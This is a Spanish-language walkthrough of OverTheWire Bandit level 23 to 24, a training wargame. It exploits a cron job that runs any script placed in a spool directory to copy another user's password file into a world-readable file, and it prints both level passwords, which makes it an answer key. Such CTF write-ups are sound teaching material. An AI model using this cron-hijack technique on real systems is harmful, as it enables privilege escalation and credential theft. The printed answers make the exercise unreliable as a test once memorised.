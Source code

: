 # Level 23 al 24

## Objetivo.

## Datos de acceso al nivel.

bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución.

bandit23@bandit:~$ ls /etc/cron.d
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$  mkdir /tmp/kd
mkdir: cannot create directory ‘/tmp/kd’: File exists
bandit23@bandit:~$  cd /tmp/kd
bandit23@bandit:/tmp/kd$ echo "cat /etc/bandit_pass/bandit24 > /tmp/kd/password" > script.sh
bandit23@bandit:/tmp/kd$ chmod +x script.sh
bandit23@bandit:/tmp/kd$ touch password
bandit23@bandit:/tmp/kd$ chmod 666 password
bandit23@bandit:/tmp/kd$  ls –la
ls: cannot access '–la': No such file or directory
bandit23@bandit:/tmp/kd$ ls -la
total 128
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 24 23:01 .
drwxrwx-wt 3167 root     root     114688 Feb 28 22:02 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 22:02 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 22:01 script.sh
bandit23@bandit:/tmp/kd$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/kd$ ls -la
total 128
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 24 23:01 .
drwxrwx-wt 3167 root     root     114688 Feb 28 22:03 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 22:03 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 22:01 script.sh
bandit23@bandit:/tmp/kd$ date
Tue Feb 28 10:03:19 PM UTC 2023
bandit23@bandit:/tmp/kd$ ls -la
total 128
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 24 23:01 .
drwxrwx-wt 3167 root     root     114688 Feb 28 22:03 ..
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 22:03 password
-rwxrwxr-x    1 bandit23 bandit23     49 Feb 28 22:01 script.sh
bandit23@bandit:/tmp/kd$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Notas opcionales.

Su solución es similar al nivel anterior.

## Referencias.

https://overthewire.org/wargames/bandit/bandit24.html
https://mayadevbe.me/posts/overthewire/bandit/level24/